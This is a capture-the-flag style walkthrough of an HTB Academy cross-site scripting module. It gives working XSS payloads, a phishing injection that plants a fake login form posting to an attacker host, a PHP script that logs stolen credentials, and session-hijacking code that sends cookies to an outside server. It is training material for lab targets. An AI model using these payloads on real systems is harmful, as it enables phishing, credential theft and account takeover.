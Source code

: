 # [HTB_Academy] Cross-Site Scripting (XSS)

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
>**Q. What type of XSS was found on the above server? "name only"**
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

```bash
http://10.129.252.57/phishing/
```

```bash
http://10.129.252.57/phishing/index.php?url=httos%3A%2F%2Fwww.hackthebox.eu%2Fimages%2Flogo-htb.svg
```

```bash
ifconfig
```

```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```

```bash
http://10.129.252.57/phishing/index.php?url=document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```bash
http://10.129.252.57/phishing/index.php?url='/><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46:3333><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script><!--
```

```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```

```bash
mkdir /tmp/server
cd /tmp/server
nano index.php
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```bash
sudo php -S 0.0.0.0:3333
```

```bash
cat creds.txt
```

```bash
cat index.php
```

```bash
http://10.129.252.57/phishing/send.php
```

```bash
sudo php -S 0.0.0.0:3333
```

```bash
http://10.129.252.57/phishing/login.php
```

## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**
Look for the payload

```javascript
"><script src=http://10.10.14.46:3333></script>
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Look for the position
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```

```javascript
new Image().src='http://10.10.14.46:3333/index.php?c='+document.cookie
```

Click on "+" to add the cookie

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**

